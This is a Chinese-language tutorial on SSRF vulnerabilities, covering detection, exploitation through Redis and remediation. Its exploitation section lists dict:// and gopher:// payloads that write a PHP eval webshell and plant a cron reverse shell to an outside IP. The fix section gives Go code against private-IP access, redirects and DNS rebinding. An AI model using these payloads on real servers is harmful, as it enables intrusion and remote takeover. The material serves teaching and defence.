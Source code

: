 ## 0x01 SSRF漏洞简介

### 1.1 漏洞场景	

​	SSRF（Server-Side Request Forgery：服务端请求伪造）是一种由攻击者构造形成，由服务端发起请求的一个安全漏洞。攻击者在未能获取服务器权限时，利用存在缺陷的应用作为代理远程攻击内网的服务器。

## 0x02 SSRF漏洞检测

### 2.1 信息收集

#### 2.1.1 web请求

```
curl gopher://192.168.100.1:80/_GET%20%2F%20HTTP%2F1.1%0D%0AHost%3A%20192.168.100.1%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AConnection%3A%20close%0D%0A%0D%0A
```
#### 2.1.2 端口探测

```
curl "dict://172.34.178.16:22/"
```
### 2.2 Redis漏洞

#### 2.2.1 Redis命令

- Redis秘钥

```
curl "dict://127.0.0.1:6379/auth:''"
```

- Redis键值

```
curl "dict://127.0.0.1:6379/set:flag:123"
curl "dict://127.0.0.1:6379/keys:*"
curl "dict://127.0.0.1:6379/get:flag"
```
#### 2.2.2 Getshell操作

- 直接写webshell

```
dict://127.0.0.1:6379/flushall
dict://127.0.0.1:6379/set:x:'<script:language="php">@eval($_GET["chaos"]);</script>'
dict://127.0.0.1:6379/config:set:dir:/var/www/html/
dict://127.0.0.1:6379/config:set:dbfilename:test.php
dict://127.0.0.1:6379/save
```


- 主从复制写webshell

```
192.168.8.185:6379> set x '<?php eval($_GET["chaos"]);?>'
dict://127.0.0.1:6379/slaveof:192.168.8.185:6379    # 设置主从模式
dict://127.0.0.1:6379/get:x
dict://127.0.0.1:6379/config:set:dir:/var/www/html/
dict://127.0.0.1:6379/config:set:dbfilename:test.php
dict://127.0.0.1:6379/save
dict://127.0.0.1:6379/slaveof:no:one

dict://127.0.0.1:6379/flushall
dict://127.0.0.1:6379/set:x:'%5Cn%5Cn*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.33.6.150%2F9999%200%3E%261%5Cn%5Cn'
dict://127.0.0.1:6379/config:set:dir:/var/spool/cron/
dict://127.0.0.1:6379/config:set:dbfilename:root
dict://127.0.0.1:6379/save
```

## 0x03 SSRF漏洞修复

### 3.1 去除url中的特殊字符

​	防止url解析差异绕过

### 3.2 域名内网IP过滤

#### 3.2.1 内网IP判断

```
// IsLocalIP 判断是否是内网ip
func IsLocalIP(ip net.IP) bool {
    if ip == nil {
        return false
    }
    // 判断是否是回环地址, ipv4时是127.0.0.1；ipv6时是::1
    if ip.IsLoopback() {
        return true
    }
    // 判断ipv4是否是内网
    if ip4 := ip.To4(); ip4 != nil {
        return ip4[0] == 10 || // 10.0.0.0/8
            (ip4[0] == 172 && ip4[1] >= 16 && ip4[1] <= 31) || // 172.16.0.0/12
            (ip4[0] == 192 && ip4[1] == 168) // 192.168.0.0/16
    }
    // 判断ipv6是否是内网
    if ip16 := ip.To16(); ip16 != nil {
        // 参考 https://tools.ietf.org/html/rfc4193#section-3
        // 参考 https://en.wikipedia.org/wiki/Private_network#Private_IPv6_addresses
        // 判断ipv6唯一本地地址
        return 0xfd == ip16[0]
    }
    // 不是ip直接返回false
    return false
}
```

#### 3.2.2 dns解析ip

```
site := "http://www.test.com"
ourl, err := url.Parse(site)
if err != nil{
	return false
}
ip, err := net.LookupIP(ourl.Hostname())	// dns解析IP
if err != nil{
	return false
}
```

### 3.3 不要使用URL跳转

​	检查是否为内网资源是在请求之前发起的，如果攻击者在请求过程中通过URL跳转访问内网则可以绕过第一种防御策略。

```
client := &http.Client{
    CheckRedirect: func(req *http.Request, via []*http.Request) error {
        // 跳转超过10次，也拒绝继续跳转
        if len(via) >= 10 {
            return fmt.Errorf("redirect too much")
        }
        statusCode := req.Response.StatusCode
        if statusCode == 307 || statusCode == 308 {
            // 拒绝307和308跳转访问(此类跳转可以时POST请求，风险极高)
            return fmt.Errorf("unsupport redirect method")
        }
        // 判断ip
        ips, err := net.LookupIP(req.URL.Host)
        if err != nil {
            return err
        }
        for _, ip := range ips {
            if IsLocalIP(ip) {
                return fmt.Errorf("have local ip")
            }
            fmt.Printf("%s -> %s is localip?: %v\n", req.URL, ip.String(), IsLocalIP(ip))
        }
        return nil
    },
}
```

### 3.4 将域名转换成IP访问

​	发起一次HTTP请求需要先请求DNS服务获取域名对应的IP地址，如果攻击者有可控的DNS服务，就可以通过DNS重绑定绕过前面的防御策略。

```
dialer := &net.Dialer{}
dialer.Control = func(network, address string, c syscall.RawConn) error {
    // address 已经是ip:port的格式
    host, _, err := net.SplitHostPort(address)
    if err != nil {
        return err
    }
    fmt.Printf("%v is localip?: %v\n", address, IsLocalIP(net.ParseIP(host)))
    return nil
}
transport := http.DefaultTransport.(*http.Transport).Clone()
// 使用官方库的实现创建TCP连接
transport.DialContext = dialer.DialContext
// 使用此client请求，可避免DNS重绑定风险
client := &http.Client{
    Transport: transport,
}
```



